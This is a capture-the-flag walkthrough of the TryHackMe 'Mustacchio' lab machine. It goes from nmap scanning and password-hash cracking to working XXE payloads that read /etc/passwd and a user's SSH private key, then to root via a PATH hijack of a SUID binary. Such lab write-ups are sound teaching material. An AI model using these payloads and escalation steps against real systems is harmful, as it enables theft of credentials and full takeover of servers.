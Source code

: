 ## TryHackMe Mustacchio Walkthrough

I used the TryHackMe AttackBox to work through the [Mustacchio](https://tryhackme.com/room/mustacchio) room.

Once the room and Mustacchio machine booted up, I ran the following `nmap` scan of the first 10,000 ports: `nmap -sV --script default,vuln,http-enum -p 1-10000 10.10.166.116`.  Results:

```
Nmap scan report for ip-10-10-166-116.eu-west-1.compute.internal (10.10.166.116)
Host is up (0.00072s latency).
Not shown: 9997 filtered ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 58:1b:0c:0f:fa:cf:05:be:4c:c0:7a:f1:f1:88:61:1c (RSA)
|   256 3c:fc:e8:a3:7e:03:9a:30:2c:77:e0:0a:1c:e4:52:e6 (ECDSA)
|_  256 9d:59:c6:c7:79:c5:54:c4:1d:aa:e4:d1:84:71:01:92 (EdDSA)
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-csrf: 
| Spidering limited to: maxdepth=3; maxpagecount=20; withinhost=ip-10-10-166-116.eu-west-1.compute.internal
|   Found the following possible CSRF vulnerabilities: 
|     
|     Path: http://ip-10-10-166-116.eu-west-1.compute.internal/contact.html
|     Form id: fname
|_    Form action: contact.html
|_http-dombased-xss: Couldn't find any DOM based XSS.
| http-enum: 
|   /robots.txt: Robots file
|   /custom/: Potentially interesting directory w/ listing on 'apache/2.4.18 (ubuntu)'
|_  /images/: Potentially interesting directory w/ listing on 'apache/2.4.18 (ubuntu)'
| http-internal-ip-disclosure: 
|_  Internal IP Leaked: 127.0.0.1
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-slowloris-check: 
|   VULNERABLE:
|   Slowloris DOS attack
|     State: LIKELY VULNERABLE
|     IDs:  CVE:CVE-2007-6750
|       Slowloris tries to keep many connections to the target web server open and hold
|       them open as long as possible.  It accomplishes this by opening connections to
|       the target web server and sending a partial request. By doing so, it starves
|       the http server's resources causing Denial Of Service.
|       
|     Disclosure date: 2009-09-17
|     References:
|       http://ha.ckers.org/slowloris/
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2007-6750
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-title: Mustacchio | Home
8765/tcp open  http    nginx 1.10.3 (Ubuntu)
| http-csrf: 
| Spidering limited to: maxdepth=3; maxpagecount=20; withinhost=ip-10-10-166-116.eu-west-1.compute.internal
|   Found the following possible CSRF vulnerabilities: 
|     
|     Path: http://ip-10-10-166-116.eu-west-1.compute.internal:8765/
|     Form id: 
|_    Form action: auth/login.php
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-server-header: nginx/1.10.3 (Ubuntu)
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-title: Mustacchio | Login
MAC Address: 02:96:92:55:61:33 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Ports 22, 80, and 8765 were open.  First I started by looking at the page at port 80:

![](/img/tryhackme/mustacchio/mustacchio_home_page.png)

Nmap indicated one disallowed entry in the `robots.txt` file, but it was just `/`.  There was also a `/custom/` directory on port 80, and in `/custom/js/` there was a file `users.bak`.  I downloaded the file, and ran `file users.bak`, which gave me `SQLite 3.x database, last written using SQLite version 3034001`.  Turns out it's a sqlite3 file.  I opened it in `sqlite3` and found a table `users` with one entry, the user `admin` with a password hash:  

![](/img/tryhackme/mustacchio/mustacchio_users_bak.png)

I put this hash into a file `hash.txt` and tried to crack it with `john` using the command `john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt`, and I got the password:

![](/img/tryhackme/mustacchio/mustacchio_john_crack_users_bak.png)

I tried to ssh with this user but got a `Permission denied (publickey)` error, so these weren't SSH credentials.  From nmap I discovered earlier another HTTP service open on port 8765, which had a login page:

![](/img/tryhackme/mustacchio/mustacchio_admin_panel_login.png)

I tried the credentials there and successfully logged in.  This took me to an admin panel with a single input:

![](/img/tryhackme/mustacchio/mustacchio_admin_panel.png)

I looked through the source code and found a script with a reference to a `/auth/dontforget.bak` file, as well as a comment to Barry about his SSH key:

![](/img/tryhackme/mustacchio/mustacchio_admin_source_code.png)

The `dontforget.bak` file turned out to contain XML code:

![](/img/tryhackme/mustacchio/mustacchio_dontforget.png)

In the input field I had found, I entered some text in the input and clicked Submit, after which I saw a result at the bottom with name, author, and comment fields:

![](/img/tryhackme/mustacchio/mustacchio_admin_panel_result.png)

I also tried clicking Submit with nothing in the text input, which gave an alert message telling me to put in XML code:

![](/img/tryhackme/mustacchio/mustacchio_admin_panel_blank.png)

I used the XML code from `dontforget.bak`, and the page filled in the name, author, and comment:

![](/img/tryhackme/mustacchio/mustacchio_admin_panel_xml.png)

This field looked worth testing for XXE vulnerabilities.  Using the following payload displayed the contents of the server's `/etc/passwd` file:

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "/etc/passwd"> ]>
<comment>
  <name>Joe Hamd</name>
  <author>Barry Clad</author>
  <com>&xxe;</com>
</comment>
```

![](/img/tryhackme/mustacchio/mustacchio_admin_panel_xxe_etc_passwd.png)

From this output I saw there were users `joe` and `barry`, and I tried modifying the above payload to see if I could get a result for a `user.txt` file.  Turns out that replacing `/etc/passwd` with `/home/barry/user.txt` gave me the first flag.

![](/img/tryhackme/mustacchio/mustacchio_user_flag.png)

Given the source code comment earlier about Barry's SSH key, I tried to get Barry's SSH key at `/home/barry/.ssh/id_rsa` and was able to retrieve it.  I base64 encoded it first, to maintain the proper formatting, with the following payload:

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/home/barry/.ssh/id_rsa"> ]>
<comment>
  <name>Joe Hamd</name>
  <author>Barry Clad</author>
  <com>&xxe;</com>
</comment>
```

I then base64 decoded the string, and saved it to a file `id_rsa` and updated its permissions with `chmod 600 id_rsa`.  The key required a passphrase however, so I used the `/opt/john/ssh2john.py` program to get a hash from the SSH key, running the command `/opt/john/ssh2john.py id_rsa > ssh_hash.txt`. I then ran `john ssh_hash.txt --wordlist=/usr/share/wordlists/rockyou.txt` to crack the hash, giving me the key password:

![](/img/tryhackme/mustacchio/mustacchio_ssh_key_passphrase_john.png)

I was able to use the key and passphrase to log in as `barry`, starting me at `/home/barry` on the server.  I had already seen the flag in `/home/barry/user.txt`.

After looking around in barry's and joe's home directories, I found a `live_log` program in `/home/joe/` that had SUID permissions as root.  After running `strings live_log`, I found the string `tail -f /var/log/nginx/access.log`. Since it looked like this program ran `tail`, I figured I could create my own version of `tail` in `/tmp` and update `PATH` to use my version of `tail` as `root` when running `live_log`.  I made a program `/tmp/tail` with the following code:

```
#!/bin/bash

/bin/bash
```

I then updated its permissions with `chmod +x /tmp/tail`, updated `PATH` to have `/tmp` first using the command `export PATH=/tmp:$PATH`, then ran the `live_log` program.  This escalated my privileges to root, and from here I was able to find and view the root flag:

![](/img/tryhackme/mustacchio/mustacchio_priv_esc.png)
